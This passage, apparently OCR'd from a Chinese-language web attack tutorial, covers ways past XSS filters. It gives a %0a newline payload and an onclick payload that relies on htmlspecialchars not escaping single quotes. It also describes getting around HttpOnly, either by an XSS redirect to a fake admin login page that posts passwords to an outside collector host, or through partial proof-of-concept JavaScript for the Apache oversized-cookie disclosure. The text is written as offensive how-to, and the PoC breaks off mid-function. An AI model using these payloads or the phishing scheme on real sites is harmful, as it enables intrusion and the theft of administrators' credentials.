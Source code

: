 	这种方法相比上两种要靠谱的多，只能在特定场景下绕过，下面给出一个场景
	
	首先要知道%0a相当于回车(换行)
	
	那么在这里可以使用%0a来换行一下然后去输出
	
		Payload:%0aalert(0);

4. 特征式编码法         
	这种跟上面差不多，基于特征的只能在特定场景绕过，下面再给出一个场景:

	    <?php
	    $name = $_GET["name"];
	    $name = htmlspecialchars($name);
	    ?>
	    <input type='text' value='<?php echo $name?>'>
	
		Payload:‘onclick=’alert(0)

	Htmlspecialchars默认是不过滤单引号的，只有在quotestyle 选项为ENT_QUOTES才会过滤

5. Httponly限制最大利用XSS

		首先要知道我们像嵌入的xss.js是如何获取到目标cookie的。
		浏览器中的document对象中，就储存了Cookie的信息，而利用js可以把这里面的Cookie给取出来，在传这个cookie的值到xss平台中。
		那么应答头中含有httponly属性，客户端的一切js操作都会被禁止，不止我们盗不了cookie，连开发者都不能在前端操作cookie。

	虽然取不了cookie但仍然可以取一些敏感信息，如host，referer，IP，等。  
	(1)钓鱼
	虽然有了httponly后xss不能取到cookie，但能取到后台地址，这个时候我们可以伪造一个跟目标站相同的后台登录页面。  
	再通过xss使目标站跳转到我们的钓鱼后台登录页面。最后达到当管理员访问被xss的页面时自动跳转到我们的钓鱼页面。诱导管理员输入账号密码。  
	//后台登录钓鱼页面  
	修改action值为接收账号密码地址(http://xssir.org/x.php)
	
	接收账号密码的脚本，如果你看到服务器上多了一个add.txt就鱼儿已经上钩。
	
	(2)分析源码
	Xss不止能获取基本信息，还可以获取源码，通过源码加载的JS，CSS仍然可以获得很多有价值的信息  
	通过分析每个js的作用，分析网站后台的具体功能点，有很多意想不到的操作，这个不容易在文章中体现出来，主要还是看个人水平  
	获取源代码这个不容易在文章里体现出来，主要还是看个人的审计水平  
	
	(3)Apache httpOnly Cookie Disclosure
	这个漏洞十分罕见,当apache接收到一个大于4k的cookie的时候，会返回一个400的错误，并且把所有的cookie完整的在页面当中显示出来。  
	给用户在正常的cookie的基础上再增加一些无用的cookie，使用户的cookie大于4k，然后js再发包请求一次网站，这时apache返回的响应就是400，并把cookie显示出来，这是我们只要用js正则匹配出正常的cookie即可，由于不是js直接获取cookie，而只是正则匹配出返回的字符串而已，便相当于绕过了cookie的httponly的属性，完整的攻击需要加上把匹配的字符串再发送到自己的一个接受文件当中即可。

	POC:

	    var str = "";  
	    for (var i=0; i< 819; i++) {  
	        str += "x";  
	    }  
	    // Set cookies  
	    for (i = 0; i < 10; i++) {  
	        // Expire evil cookie  
	        if (good) {  
	            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";  
	        }  
	        // Set evil cookie  
	        else {  
	            var cookie = "xss"+i+"="+str+";path=/";  
	        }  
	        document.cookie = cookie;  
	    }  
		}  
		function makeRequest() {  
		    setCookies();  
		    function parseCookies () {  
		        var cookie_dict = {};  